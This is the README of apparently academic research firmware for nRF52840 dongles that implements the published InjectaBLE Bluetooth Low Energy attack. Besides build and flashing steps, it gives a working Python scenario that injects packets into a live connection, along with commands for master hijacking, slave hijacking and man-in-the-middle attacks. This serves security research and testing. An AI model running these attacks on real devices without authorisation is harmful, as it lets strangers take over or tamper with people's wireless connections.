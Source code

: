 # injectable-firmware
Custom firmware for PCA10059 NRF52840 Dongle (from Nordic SemiConductors) and nRF52840 MDK USB Dongle (from MakerDiary), allowing to easily eavesdrop Bluetooth Low Energy communications and perform multiple active attacks based on InjectaBLE strategy.    

We published two papers describing this new Bluetooth Low Energy attack, allowing to inject malicious traffic into an established BLE connection:

* Romain Cayre, Florent Galtier, Guillaume Auriol, Vincent Nicomette, Mohamed Kaâniche, et al.. [InjectaBLE : injection de trafic malveillant dans une connexion Bluetooth Low Energy](https://hal.laas.fr/hal-03221143). *Symposium sur la sécurité des technologies de l'information et des communications (SSTIC 2021)*, Jun 2021, Rennes (en ligne), France. **\[fr\]**
* Romain Cayre, Florent Galtier, Guillaume Auriol, Vincent Nicomette, Mohamed Kaâniche, et al.. [InjectaBLE: Injecting malicious traffic into established Bluetooth Low Energy connections](https://hal.laas.fr/hal-03193297). *IEEE/IFIP International Conference on Dependable Systems and Networks (DSN)*, Jun 2021, Taipei (virtual), Taiwan. **\[en\]**

## Flashing the pre-compiled firmware
We now provide pre-compiled HEX files in the *dist* directory, allowing you to flash the firmware without installing the toolchain (thanks to *maichai* for the suggestion !). 
* If you are using a PCA10059 dongle from Nordic SemiConductors, you need to install nrfutil and add it to youjr PATH variable. Then you can flash the dongle using the following command:
```
$ make send
```

* If you are using a MDK dongle from MakerDiary, you have to flash the [UF2 Bootloader](https://github.com/makerdiary/uf2-bootloader). Then you can flash the dongle using the following command:
```
$ make send PLATFORM=BOARD_MDK_DONGLE
```

The dongle should now be detected by your operating system: (please check)
```
$ lsusb
[...]
Bus 001 Device 039: ID 5a17:0000 Mirage Toolkit ButteRFly
[...]
```

## Installing the environment
* Install the latest ARM GCC Toolchain (C++ support needed), add it to your PATH variable
* Download the latest NRF5 SDK from nordic semiconductors
* Install nrfutil and add it to your PATH variable (only needed for pca10059 dongle)
* Set the SDK_ROOT environment variable to match the SDK directory

## Compiling the firmware (pca10059)
Compiling the firmware is straightforward:
```
$ make
```

Then, you can use the send command to flash it on the dongle:
```
$ make send
```

The dongle should now be detected by your operating system:
```
$ lsusb
[...]
Bus 001 Device 039: ID 5a17:0000 Mirage Toolkit ButteRFly
[...]
```


## Compiling the firmware (mdk-dongle)
Compiling the firmware is straightforward:
```
$ make PLATFORM=BOARD_MDK_DONGLE
```

Then, you can use the send command to flash it on the dongle:
```
$ make send PLATFORM=BOARD_MDK_DONGLE
```

The dongle should now be detected by your operating system:
```
$ lsusb
[...]
Bus 001 Device 039: ID 5a17:0000 Mirage Toolkit ButteRFly
[...]
```

## Injecting packets into an established connection
You can use  [Mirage framework](https://github.com/RCayre/mirage) to interact with the dongle and perform injection attacks. For example, let's imagine you want to inject packets into a Bluetooth Low Energy connection between a lightbulb and a smartphone. You know that the following packets allow to turn the bulb on or off:

* **Write command | handle = 0x0021 | data = 5510010d0a:** turn the bulb on
* **Write command | handle = 0x0021 | data = 5510000d0a:** turn the bulb off

You can write the following scenario, which will inject the "on" packet when the up arrow key is pressed and the "off" packet when the down arrow key is pressed:

```
from mirage.core import scenario
from mirage.libs import io,ble,utils

class injection_lightbulb(scenario.Scenario):

	def onStart(self):
		self.emitter = self.module.getEmitter(self.module["INTERFACE"])

	def onKey(self,key):
		if key == "up":
			self.emitter.send(ble.BLEWriteCommand(handle=0x0021,value=b"\x55\x10\x01\x0d\x0a"))
		elif key == "down":
			self.emitter.send(ble.BLEWriteCommand(handle=0x0021,value=b"\x55\x10\x00\x0d\x0a"))
```

1) Save this scenario as **injection_lightbulb.py** in the *scenarios* folder.
2) Run the **ble_sniff** module with the following parameters:
```
sudo ./mirage_launcher ble_sniff SNIFFING_MODE=newConnections SCENARIO=injection_lightbulb INTERFACE=butterfly0
```

3) Establish the connection between the smartphone and the lightbulb: when you are synchronized with the connection, you can simply inject the previously mentioned packets by pressing up or down arrows keys.


## Hijacking the master role (experimental)
InjectaBLE allows to perform master hijacking attacks by injecting a LL\_CONNECTION\_UPDATE\_IND packet and synchronize with the Slave when the Slave changes its connection parameters. You can perform this kind of attacks using **ble_hijack** module:
```
sudo ./mirage_launcher "ble_hijack|ble_master" ble_hijack1.INTERFACE=butterfly0 ble_hijack1.ROLE=master
```


## Hijacking the slave role (experimental)
InjectaBLE allows to perform slave hijacking attacks by injecting a LL\_TERMINATE\_IND packet and synchronize with the Master when the Slave disconnects. You can perform this kind of attacks using **ble_hijack** module:
```
sudo ./mirage_launcher "ble_hijack|ble_slave" ble_hijack1.INTERFACE=butterfly0 ble_hijack1.ROLE=slave
```


## Performing a MiTM attack (experimental)
InjectaBLE allows to perform MiTM attacks by injecting a LL\_CONNECTION\_UPDATE\_IND packet and synchronize with both legitimate devices when the Slave changes its connection parameters. You can perform this kind of attacks using **ble_mitm** module:
```
sudo ./mirage_launcher ble_mitm INTERFACE=butterfly0 MITM_STRATEGY=injection
```
